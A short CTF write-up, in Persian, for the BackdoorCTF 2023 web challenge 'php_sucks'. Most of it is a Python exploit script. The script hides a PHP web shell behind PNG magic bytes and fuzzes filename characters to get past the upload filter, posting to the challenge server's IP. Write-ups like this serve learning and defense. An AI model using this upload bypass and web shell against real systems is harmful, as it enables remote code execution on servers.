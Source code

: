```yaml
---
tags:
  - BackdoorCTF
  - BackdoorCTF-2023
  - Web
  - PHP
  - Uploader_Bypass
---
```


[آرشیو چلنج](https://github.com/sajjadium/ctf-archives/tree/main/ctfs/BackdoorCTF/2023/web/php_sucks)

```python
import re
import requests

file = io.BytesIO()
file.write(bytes.fromhex("89 50 4E 47 0D 0A 1A 0A"))
file.write(b'<?php echo system($_GET[\'ss\']); ?>')
for i in range(30, 40): # $ will work
    file.seek(0)
    name = 'ssss.php' + chr(i) + ".png"
    print(name)
    try:
        r = requests.post('http://34.132.132.69:8002/chal/upload.php', files=[('file', (name, file, 'image/jpeg'))], data={"submit": "", "name": "SS"}).content.decode()
        url = "http://34.132.132.69:8002/chal/" + re.search(r'<a href=\'(.*?)\' target=', r).group(1)
        print(i, requests.get(url).content)
    except:
        pass
```

یه کد بایپس آپلود ساده که بر اساس magic byte های png داره بایپس میکنه

سر اسم فایل آپلود شده یکم چالش بر انگیز بود که معلوم شد کاراکتر $ میتونه باعث بشه که فایل png بره سمت php handler و کد اکسپلویت اجرا بشه

از اونجایی که این کاراکتر بهمون وحی نشده، کد رو بصورت فازر نوشتم و پیداش کردم =))

!!! نویسنده
    [SafaSafari](https://twitter.com/SafaSafari3)

